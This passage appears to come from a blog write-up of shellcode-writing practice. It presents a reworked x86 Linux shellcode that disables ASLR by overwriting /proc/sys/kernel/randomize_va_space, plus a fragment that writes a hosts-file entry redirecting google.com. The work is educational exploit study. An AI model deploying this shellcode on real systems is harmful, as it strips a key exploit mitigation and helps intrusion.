 ```
    call _write
    google db "127.1.1.1 google.com"
    len: equ $-google ; Mod
```



http://shell-storm.org/shellcode/files/shellcode-813.php

My second choice for shellcodes was one intended to disable ASLR by rewriting the contents of /proc/sys/kernel/randomize_va_space. Again, this piqued my interest due to it not being quite as 'common'. The original shellcode came in at 83 bytes, mine's a bit bulkier coming in at 91 bytes, but it's core is completely different. It may not be the most efficient, but I thought the changes were pretty clever, every section except exit() has been pretty heavily modified.

```
global _start

section .text
_start:

        xor  eax,eax

        push eax
        push 0x65636170
        push 0x735f6176
        push 0x5f657a69
        push 0x6d6f646e
        push 0x61722f6c
        push 0x656e7265
        push 0x6b2f7379
        push 0x732f636f
        push 0x72702f2f

        mov ebx,esp

        mov eax, 0x2
        mov ch, al
        mov cl, 0xbc
        imul eax, 0x4
        int 0x80

        mov  ebx,eax
        push eax
        push 0x30
        pop edx
        mov dh, 0x3a 
        push dx
        mov ecx,esp
        xor edx,edx
        mov dl, 0x2
        mov al, 0x2
        mul dl
        dec edx
        int 0x80

        add al, 0x5
        int 0x80

        inc eax
        int 0x80
```
